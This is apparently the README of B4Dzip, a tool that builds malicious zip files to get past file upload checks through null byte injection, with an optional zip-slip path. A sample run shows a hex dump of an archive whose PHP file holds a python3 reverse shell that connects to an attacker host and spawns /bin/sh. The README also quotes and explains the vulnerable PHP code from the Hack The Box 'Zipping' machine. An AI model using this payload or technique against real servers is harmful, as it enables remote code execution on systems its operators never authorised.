 # B4Dzip

The main purpose of this script is to create a zip file for exploiting File Upload using Null Byte injection. The vulnerability
occurs due to an incorrect validation of the Central Directory Header filename. A vulnerable PHP example is explained at the end of this doc.
<br><br>
More information about ZIP file format can be found [here](https://en.wikipedia.org/wiki/ZIP_(file_format)).


<!-- USAGE EXAMPLES -->
## Usage

```
python3 main.py  --help
usage: B4Dzip [-h] -F FILE -E EXT -P PAYLOAD [-ZS ZIP_SLIP] [-O OUTPUT_FNAME]

Creates a malicious zip file using the given payload as content and injecting NULL Byte in the given
filename, to bypass validations in the Central Directory Header filename.

optional arguments:
  -h, --help            show this help message and exit
  -F FILE, --file FILE  Filename of the file to compress
  -E EXT, --ext EXT     Extension to append after NULL Byte injection.
  -P PAYLOAD, --payload PAYLOAD
                        Payload filepath
  -ZS ZIP_SLIP, --zip-slip ZIP_SLIP
                        Zip Slip parent directory, something like: ../../../
  -O OUTPUT_FNAME, --output-fname OUTPUT_FNAME
                        Output file name
```
## Usage via `runner.sh`

I Highly recommend to use the `runner.sh` file for getting information about usage examples.
The example below shows how a successfull execution of the script should look like.

```
./runner.sh 
b4d.zip saved successfully.


*********** SUMMARY ***********

Archive:  b4d.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
      236  2023-08-30 22:43   cc7f82eef39c4d12.php
---------                     -------
      236                     1 file


00000000  50 4b 03 04 0a 00 00 00  00 00 69 b5 1e 57 27 58  |PK........i..W'X|
00000010  57 17 ec 00 00 00 ec 00  00 00 14 00 00 00 63 63  |W.............cc|
00000020  37 66 38 32 65 65 66 33  39 63 34 64 31 32 2e 70  |7f82eef39c4d12.p|
00000030  68 70 3c 3f 70 68 70 20  73 79 73 74 65 6d 28 22  |hp<?php system("|
00000040  65 78 70 6f 72 74 20 52  48 4f 53 54 3d 27 3c 72  |export RHOST='<r|
00000050  68 6f 73 74 3e 27 3b 65  78 70 6f 72 74 20 52 50  |host>';export RP|
00000060  4f 52 54 3d 3c 72 70 6f  72 74 3e 3b 70 79 74 68  |ORT=<rport>;pyth|
00000070  6f 6e 33 20 2d 63 20 5c  22 69 6d 70 6f 72 74 20  |on3 -c \"import |
00000080  73 6f 63 6b 65 74 2c 6f  73 2c 70 74 79 3b 73 3d  |socket,os,pty;s=|
00000090  73 6f 63 6b 65 74 2e 73  6f 63 6b 65 74 28 29 3b  |socket.socket();|
000000a0  73 2e 63 6f 6e 6e 65 63  74 28 28 6f 73 2e 67 65  |s.connect((os.ge|
000000b0  74 65 6e 76 28 27 52 48  4f 53 54 27 29 2c 69 6e  |tenv('RHOST'),in|
000000c0  74 28 6f 73 2e 67 65 74  65 6e 76 28 27 52 50 4f  |t(os.getenv('RPO|
000000d0  52 54 27 29 29 29 29 3b  5b 6f 73 2e 64 75 70 32  |RT'))));[os.dup2|
000000e0  28 73 2e 66 69 6c 65 6e  6f 28 29 2c 66 64 29 20  |(s.fileno(),fd) |
000000f0  66 6f 72 20 66 64 20 69  6e 20 28 30 2c 31 2c 32  |for fd in (0,1,2|
00000100  29 5d 3b 70 74 79 2e 73  70 61 77 6e 28 27 2f 62  |)];pty.spawn('/b|
00000110  69 6e 2f 73 68 27 29 5c  22 22 29 3b 3f 3e 50 4b  |in/sh')\"");?>PK|
00000120  01 02 1e 03 0a 00 00 00  00 00 69 b5 1e 57 27 58  |..........i..W'X|
00000130  57 17 ec 00 00 00 ec 00  00 00 19 00 00 00 00 00  |W...............|
00000140  00 00 00 00 00 00 a4 81  00 00 00 00 63 63 37 66  |............cc7f|
00000150  38 32 65 65 66 33 39 63  34 64 31 32 2e 70 68 70  |82eef39c4d12.php|
00000160  00 2e 70 64 66 50 4b 05  06 00 00 00 00 01 00 01  |..pdfPK.........|
00000170  00 47 00 00 00 1e 01 00  00 00 00                 |.G.........|
0000017b
```

## Vulnerable code example

The following code has been extracted from `HTB - Zipping` and is a good example about how the vulnerability works. Also, it is the main reason why I did this script.

```php
<?php
    ...
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
        echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
        /* 
            HERE: Checking the Wiki we find that:

            "If the end of central directory record indicates a non-empty
            archive (`cdh_size` and `lfh_size` in `badzip.py`), the name
            of each file or directory within the archive should be specified
            in a central directory entry (`cdh_fname` in `badzip.py`), along
            with other metadata about the entry, and an offset into the ZIP file
            pointing to the actual entry data.

            ...

            "This allows a file listing of the archive to be performed relatively
            quickly, as the entire archive does not have to be read to see
            the list of files."

            TL;DR : $zip->getNameIndex(0) is reading the file name from Central Directory Header :)
        */
        $fileName = $zip->getNameIndex(0);

        /* 
            HERE: PATHINFO_EXTENSION returns only the last extension,
                  so 'example.php\x00.pdf" will be read as .pdf == "pdf"
                  More about: https://manuales.guebs.com/php/function.pathinfo.html
        */
        if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
          mkdir($uploadDir);
          echo exec('7z e ' . $zipFile . ' -o' . $uploadDir . '>/dev/null');
          echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="' . $uploadDir . $fileName . '">' . $uploadDir . $fileName . '</a>' . '</p>';
        } else {
          echo "<p>The unzipped file must have  a .pdf extension.</p>";
        }
      }
    } else {
      echo "Error uploading file.";
    }
    ...
?>
```

## Meta

Diego Muñoz – [LinkedIn](linkedin.com/in/diegomuñozm)

Distributed under the MIT License. Go to ``LICENSE`` for more information.

[See license](https://github.com/0xCronos/B4Dzip/blob/master/LICENSE)

